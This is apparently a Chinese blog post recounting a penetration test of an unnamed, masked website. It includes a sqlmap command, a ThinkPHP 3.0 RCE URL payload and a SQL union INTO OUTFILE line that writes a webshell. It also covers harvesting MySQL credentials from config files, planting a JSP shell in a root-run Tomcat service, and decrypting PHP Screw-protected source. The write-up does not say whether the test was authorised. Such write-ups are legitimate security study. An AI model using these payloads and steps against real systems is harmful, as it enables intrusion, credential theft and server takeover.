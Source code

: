 ```yaml
---
layout:     post
title:      对某一网站的渗透测试
subtitle:   还挺有意思的，注入->getshell->提权->破解php加密(网站防护做的。。)
date:       2020-11-10
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/83173792_p0.jpg
tags:
    - 渗透测试
---
```




## 对网站的渗透



端口扫描

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105221640.png)



存在`mysql`,`ftp`,`ssh`,`http`,`ajp`,`tomcat` 多个服务



ajp 存在漏洞 `2020-10487 Tomcat apj`

存在任意文件读 ，但没啥用

`WEB-INF/web.xml` 里没有任何东西

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110192829.png)



app上抓了个包，发现了比较可以的api

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105224537.png)



对`name`进行注入， 输入`"||1||"` 返回正常数据 ，但无法注释后面的内容，只能`布尔注入`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105224905.png)



sqlmap 一把梭

`python .\sqlmap.py -r res --tamper=space2comment --level 5  --dbs --random-agent`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105225413.png)



存在读文件

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105225708.png)



不知道`nginx` 和 `web目录`,默认路径不存在

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105230233.png)



读到mysql的目录，根据大佬的猜测，同目录下存在nginx 服务，于是读取`***/nginx/conf/nignx.conf`

成功读到配置文件, 存在多个应用 以及对应的路径

```
        location /** {
                autoindex on;
               root /***/***/******;
               index index.html index.htm index.php;
                if (!-e $request_filename) {
                        rewrite ^/xx/(.*)$ /xxxx/admin.php/$1 last;

        break;
                }
        }

        location = /xxx {
               #autoindex on;
               root /xxx/xxx/xxxx;
               index index.html index.htm index.php;
                if (!-e $request_filename) {
                        rewrite ^/xx /xx/index.php last;
                        break;
                }
        }
```



两个后台（其中一个还挂了），和一个应用

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20201105231205660.png)



暴露了 框架和绝对路径

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105231357.png)

存在目录遍历，发现了个比较有意思的页面`mysql.inc.php`，读取获取了 mysql 的账号密码

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110204448.png)



企图直接连接，但失败了，

看了看数据库，只能本地登录和指定ip登录

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110204922.png)





然后发现是`tp3.0`的远古框架 ，根据框架读了一下配置文件（也就是入可文件index.php)



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110202818.png)



按照这个配置文件本搭建了一下，目录结构清晰可见

```
├─caches
│  ├─cache
│  ├─data
│  ├─logs
│  └─temp
├─common
├─Conf
├─language
├─library
│  ├─Action
│  ├─****
│  ├─Model
│  └─****
└─themes
```



根据手册 `tp3`的编程风格，确定 项目的文件为`IndexAction.class.php`，通过sql注入读取发现乱码。。。

然后尝试`tp3.0`的RCE

poc如下

```
http://**/index.php/Index/index/name/$%7B@phpinfo%28%29%7D
```

直接打不行

仔细看了一下 发现必须为精简模式下才可以使用,即index.php得包含如下

```php
define('MODE_NAME','Lite');
```



未果 想起还有管理的账号密码

通过之前注入拿到数据库，找到管理员的账号密码，然后登入（后台有点东西

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105231738.png)



后台同样存在注入漏洞（随便一个地方就有），并存在 联合注入，并且具有写文件权限

```SQL
0 union select tohex('webshell'),1,2 into outfile '/**/**/**/shell.php'
```



蚁剑连接上

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20201105232648033.png)



但自己是 www用户

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105232727.png)



查看进程

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201106002356.png)

发现root启动的 tomcat

尝试往tomcat 写 jsp马

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201106002609.png)



但是没有写权限

在检索可操作文件时，存在所有服务的一个日志文件夹

发现tomcat日志可读（心想 tomcat不是个空壳来着，怎么还有日志

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201106002957.png)



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201106002909.png)



看日志才发现还运行服务

检索对应文件

发现在tomcat外的目录 部署了服务并运行在8080上，且属性位777，写个jsp马

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201106003150.png)



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201106003327.png)



看了看源码 （蒙🖊 怪不得是乱码

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110195813.png)



根据`PM9SCREW` 检索了一下 是`screw` 加密

根据教程先获取 编译好的`php_screw.so` 文件

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110200225.png)



下载下来拖到`IDA`

找到`_pm9screw_ext_fopen` 加密函数

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110200324.png)



f5

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110200413.png)



跟进



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110200443.png)





进入红色部分发现`key`（打码部分



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110200528.png)





导出

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110200645.png)



然后用

`https://github.com/firebroo/screw_decode` 进行解密



克隆下来 修改`screwdecode.c`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110200934.png)



然后编译`make`

`./decode ./xx.php`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110201058.png)



解密完成

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110201214.png)

